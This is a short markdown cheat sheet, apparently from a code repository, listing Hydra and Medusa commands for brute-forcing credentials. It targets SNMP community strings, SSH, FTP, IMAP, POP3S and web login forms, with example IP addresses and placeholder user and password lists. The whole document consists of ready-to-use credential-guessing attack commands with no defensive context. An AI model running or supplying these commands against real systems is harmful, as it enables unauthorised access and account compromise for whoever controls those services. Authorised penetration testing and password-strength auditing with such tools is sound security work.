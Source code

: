# Brute Forcing Cheat sheet

## Hydra

### Help Menu

```
hydra -h
```

### SNMP CS Brute Force

```
hydra -p public snmp://192.168.56.2

hydra -p private snmp://192.168.56.2
```

### Other Examples

```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

### SSH Bruteforce

```
hydra -L <username-list> -P <password-list> ssh://192.168.56.2
```

### Website Login Bruteforce

```
hydra -l <username> -P <password-list> <IP Address> http-post-form "/login:username=^USER^&password=^PASS^:F=<failure message>" -V
```

## Medusa

### Help Menu

```
medusa -h
```

### SNMP CS Brute Force

```
medusa -h 192.168.56.2 -u '' -p public -M snmp

medusa -h 192.168.56.2 -u '' -p private -M snmp
```

### SSH Bruteforce

```
medusa -h 192.168.56.2 -U users.txt -P pass.txt  -M ssh

medusa -h 192.168.56.2 -U users.txt -P pass.txt  -M ssh | grep SUCCESS
```
